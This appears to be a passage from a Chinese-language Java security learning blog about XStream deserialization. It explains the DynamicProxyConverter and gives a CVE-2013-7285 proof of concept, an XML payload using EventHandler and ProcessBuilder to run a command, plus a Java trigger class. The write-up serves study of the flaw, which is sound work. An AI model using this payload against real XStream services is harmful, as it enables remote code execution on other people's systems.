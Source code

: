 有一说一看到这里的时候，就感觉 XStream 可能比较多的会通过动态代理作为 sink  
#### DynamicProxyConverter 动态代理转换器  
  
DynamicProxyConverter 即动态代理转换器，是 XStream 支持的一种转换器，其存在使得 XStream 能够把 XML 内容反序列化转换为动态代理类对象：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdhSssl9qquESbSepwdMJKw0ZcqffUTUynPVCXWpgcqhRkMQuWico23xamO21s8EByMyDANciaC5TgQ/640?wx_fmt=png "null")  
  
XStream 反序列化漏洞的 PoC 都是以 DynamicProxyConverter 这个转换器为基础来编写的。  
  
以官网给的例子为例：  
```
<dynamic-proxy>  
  <interface>com.foo.Blah</interface>  
  <interface>com.foo.Woo</interface>  
  <handler class="com.foo.MyHandler">  
    <something>blah</something>  
  </handler>  
</dynamic-proxy>
```  
  
dynamic-proxy 标签在 XStream 反序列化之后会得到一个动态代理类对象，当访问了该对象的com.foo.Blah 或 com.foo.Woo 这两个接口类中声明的方法时（即 interface 标签内指定的接口类），就会调用 handler 标签中的类方法 com.foo.MyHandler  
## 0x02 CVE-2013-7285  
  
**PoC**  
```
<sorted-set>  
  <dynamic-proxy>  
    <interface>java.lang.Comparable</interface>  
    <handler class="java.beans.EventHandler">  
      <target class="java.lang.ProcessBuilder">  
        <command>  
          <string>Calc</string>  
        </command>  
      </target>  
      <action>start</action>  
    </handler>  
  </dynamic-proxy>  
</sorted-set>
```  
  
看到 PoC 这里大致是明白了，在之前有一段代码是读取每一个 XML 的节点，读取这些节点之后应该是用动态代理触发 invoke() 了  
  
**触发代码**  
```
import com.thoughtworks.xstream.XStream;  
import com.thoughtworks.xstream.io.xml.DomDriver;  
  
import java.io.FileInputStream;  
  
// CVE_2013_7285 Exploit  
public class CVE_2013_7285 {  
    public static void main(String[] args) throws Exception{  
        FileInputStream fileInputStream = new FileInputStream("G:\\OneDrive - yapuu\\Java安全学习\\JavaSecurityLearning\\JavaSecurity\\XStream\\XStream\\XStream-Basic\\src\\main\\java\\person.xml");  
        XStream xStream = new XStream(new DomDriver());  
        xStream.fromXML(fileInputStream);  
    }  
}
```  
### 漏洞原理  
  
